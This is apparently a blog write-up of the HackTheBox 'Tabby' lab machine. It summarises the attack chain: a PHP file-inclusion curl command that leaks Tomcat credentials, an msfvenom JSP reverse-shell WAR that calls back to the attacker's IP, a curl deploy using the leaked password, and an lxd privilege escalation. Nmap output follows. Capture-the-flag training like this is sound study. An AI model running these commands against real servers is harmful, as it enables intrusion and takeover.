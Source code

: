 ```yaml
---
layout: default
title:  "HackTheBox guide - Tabby"
date:   2020-11-08 12:20:00 +0100
categories: HackTheBox
---
```


# **HackTheBox: Tabby**
* Operating System: *Linux*<br>
* Created by:  [*egre55*](https://app.hackthebox.eu/users/1190)<br>

## **Solution Summary**

### User Flag:
1. PHP Local File Inclusion to leak Tomcat admin credentials
 - `curl http://10.10.10.194/news.php?file=../../../../../../usr/share/tomcat9/etc/tomcat-users.xml`
2. Use of Tomcat admin credentials to upload and execute reverse shell as `.war` payload
 - Create:<br>`msfvenom -p java/jsp_shell_reverse_tcp LHOST=[YOUR IP ADDRESS] LPORT=1337 -f war > shell.war`
 - Upload:<br>`curl -u 'tomcat':'$3cureP4s5w0rd123!' --upload-file shell.war 'http://10.10.10.194:8080/manager/text/deploy?path=/shell'`
 - Execute:<br>`http://10.10.10.194/shell`<br>(navigate to or `wget` the above)
3. Weak password on backup zip file in `/var/www/html/files` re-used for user `ash`
4. User flag located in `/home/ash`

### System Flag:
1. User ash is part of group `lxd` meaning we can interact with Linux Containers on the system
2. Perform an [`lxd` Privilege Escalation](https://www.exploit-db.com/exploits/46978) by building Alpine Linux on your attacking machine, transferring it to Tabby and running the linked exploit on Tabby.
3. System flag is readable from within the newly spawned container at `/mnt/root/root`

## **Full Walkthrough**


## --------<br>User Flag<br>--------


An nmap of the remote host reveals several open ports:

```
$ nmap 10.10.10.194

Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-07 05:00 EST
Nmap scan report for 10.10.10.194
Host is up (0.029s latency).
Not shown: 996 closed ports

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
8081/tcp open  blackice-icecap

Nmap done: 1 IP address (1 host up) scanned in 0.60 seconds
```
### **80/tcp   open  http**


[1-enum-http-1-homepage]: /assets/images/htb/machines/tabby/1-enum-http-1-homepage.png
[1-enum-http-2-possible-LFI]: /assets/images/htb/machines/tabby/1-enum-http-2-possible-LFI.png
[1-enum-http-3-LFI-confirmed]: /assets/images/htb/machines/tabby/1-enum-http-3-LFI-confirmed.png
[2-enum-tomcat-1-default-page]: /assets/images/htb/machines/tabby/2-enum-tomcat-1-default-page.png
[2-enum-tomcat-2-manager-401-error]: /assets/images/htb/machines/tabby/2-enum-tomcat-2-manager-401-error.png